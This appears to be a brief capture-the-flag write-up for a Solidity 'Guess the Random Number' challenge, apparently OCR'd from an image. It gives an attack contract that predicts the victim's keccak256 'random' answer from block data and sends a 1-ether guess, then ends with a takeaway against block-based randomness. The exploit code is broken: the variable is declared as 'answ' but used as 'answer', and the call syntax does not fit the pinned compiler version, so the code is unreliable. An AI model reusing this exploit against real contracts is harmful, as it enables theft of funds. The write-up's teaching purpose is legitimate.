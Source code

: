 # Guess the Random Number

```pragma solidity ^0.4.21;

import "./GuessTheRandomNumber.sol";

contract GuessTheRandomNumberChallengeAttack {

    GuessTheRandomNumberChallenge victim;

    constructor(address _address) public {
        victim = GuessTheRandomNumberChallenge(_address);
    }

    function attack() external payable {
        uint8 answ = uint8(keccak256(block.blockhash(block.number - 1), now));

        victim.guess{value: 1 ether}(answer);
    }
}
```

Takeaway:

'Randomness' cannot be dervived from block numbers or hashes. Often best to use an oracle service where randomness truely matters.